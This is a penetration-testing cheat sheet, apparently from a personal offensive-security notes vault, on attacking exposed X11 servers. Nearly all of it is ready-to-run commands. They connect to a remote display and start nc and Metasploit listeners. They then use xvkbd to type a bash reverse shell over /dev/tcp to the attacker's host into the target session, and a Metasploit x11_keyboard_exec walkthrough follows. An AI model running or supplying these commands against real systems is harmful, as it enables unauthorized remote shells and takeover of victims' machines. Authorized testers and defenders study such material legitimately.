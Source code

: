 # X11

## 01 - Manual

### 1.1 - Remote Screen

```
$ Xephyr -from <attacker_IP> -query <target_IP> -screen 800x600 :1
```

### 1.2 - Implant Callback

Launch a shell handler.

```
$ nc -lnvp <attacker_PORT>

$ sudo msfconsole -qx "use exploit/multi/handler; set payload cmd/unix/reverse_bash; set lhost <attacker_IP>; set lport <attacker_PORT>; run"
```

Execute the command with one-liner shell.

```
$ xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display <target_IP>:1 -text "/bin/bash -i > /dev/tcp/<attacker_IP>/<attacker_PORT> <&1 2>&1\r"
```

## 02 - Metasploit

```
msf > use exploit/unix/x11/x11_keyboard_exec

msf exploit(unix/x11/x11_keyboard_exec) > set payload linux/x64/metepreter/reverse_tcp

msf exploit(unix/x11/x11_keyboard_exec) > options

msf exploit(unix/x11/x11_keyboard_exec) > set rhost <target_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lhost <attacker_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lport <attacker_PORT>

msf exploit(unix/x11/x11_keyboard_exec) > set time_wait 10

msf exploit(unix/x11/x11_keyboard_exec) > run
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Remote Services/X11|Vulnerability Assessment: Remote Services - X11]]

- [Bordergate: Pentesting X11](https://www.bordergate.co.uk/pentesting-x11/)